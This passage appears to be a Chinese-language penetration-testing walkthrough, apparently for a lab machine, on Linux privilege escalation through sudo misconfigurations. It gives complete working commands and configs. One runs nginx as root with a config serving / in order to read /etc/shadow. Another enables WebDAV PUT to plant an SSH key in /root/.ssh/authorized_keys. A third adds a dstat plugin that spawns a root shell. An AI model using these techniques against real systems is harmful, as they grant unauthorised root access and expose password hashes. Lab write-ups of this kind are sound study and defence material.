 ```
sudo /usr/sbin/nginx -c /home/user/nginx1.conf
```

```
可以读取到敏感文件
curl localhost:1337/etc/shadow
```

### 文件写入

配置文件加入PUT请求

```
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1338;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}
```

```
sudo /usr/sbin/nginx -c /home/user/nginx2.conf
```

可以进行文件写入，将本地root用户的公钥写入，使用ssh连接

```
curl -X PUT localhost:1338/root/.ssh/authorized_keys -d 'id_rsa.pub'
ssh -i ~/.ssh/id_rsa root@10.10.11.243
```

## Dstat提权

Dstat有个功能就是提供了用户自定义插件（python脚本）的功能

插件位置

```
/usr/share/dstat/
/usr/local/share/dstat/
```

可以在插件位置写入插件（提权脚本），使用sudo命令运行dstat插件

```python
import os
os.system("/bin/bash")
```

<font color=red>脚本的命名格式`dstat_xxx.py`</font>
